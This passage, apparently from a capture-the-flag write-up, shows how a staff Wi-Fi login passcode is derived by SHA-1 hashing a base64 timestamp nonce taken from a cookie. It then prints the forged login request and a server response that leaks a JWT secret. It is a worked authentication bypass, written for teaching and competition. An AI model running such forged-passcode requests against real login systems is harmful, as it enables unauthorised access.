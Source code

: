 ```
Cookie: WifiKey nonce=MjAyMC0wNC0wOCAxNzoxMw==  -> 2020-04-08 17:13
passcode=54f03ae2
SHA-1(MjAyMC0wNC0wOCAxNzoxMw==) = 54f03ae2cc8d1415bf06dec1670e03fd4e696982
```

The same process can be applied to your `nonce`.

```
Cookie: WifiKey nonce=MjAyMC0wNC0xMSAwMDowNw== -> 2020-04-11 00:07
SHA-1(MjAyMC0wNC0xMSAwMDowNw==) = ef07d9f7a0f3cce235a644fbb8392f211025aa98
passcode=ef07d9f7
```

In order to perform a request.

```
POST /staff.html HTTP/1.1
Host: freewifi.ctf.umbccd.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 134
Origin: https://freewifi.ctf.umbccd.io
Connection: close
Referer: https://freewifi.ctf.umbccd.io/staff.html
Cookie: WifiKey nonce=MjAyMC0wNC0xMSAwMDowNw==; WifiKey alg=SHA1; session=eyJjc3JmX3Rva2VuIjoiYTA2MmZkNTUyNzM3NmQwMTAxYTc4YzgwMmFlNmFkOTI5ZGQzNzU3OCJ9.XpD3NA.zDj47SdpKQnikt--V9WnN0zUmYQ; JWT 'identity'=31337
Upgrade-Insecure-Requests: 1

csrf_token=ImEwNjJmZDU1MjczNzZkMDEwMWE3OGM4MDJhZTZhZDkyOWRkMzc1Nzgi.XpEKKA.bAfOYEeMNYEl-nFUD9XT9rSH0YI&passcode=ef07d9f7&submit=Submit

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 11 Apr 2020 00:07:25 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Set-Cookie: WifiKey nonce=MjAyMC0wNC0xMSAwMDowNw==; Path=/
Set-Cookie: WifiKey alg=SHA1; Path=/
Set-Cookie: JWT 'secret'="dawgCTF?heckin#bamboozle"; Path=/
Vary: Cookie
Content-Length: 2594

<!DOCTYPE html>
<html>
  <head>
    <title>
Staff Wifi Login Page
</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <!-- Bootstrap -->
    <link href="/static/bootstrap/css/bootstrap.min.css?bootstrap=3.3.7.1.dev1" rel="stylesheet">
	<link rel="stylesheet" href="/static/css/main.css">

  </head>
  <body>
    
    

<div class="container">
  <div class="row">
```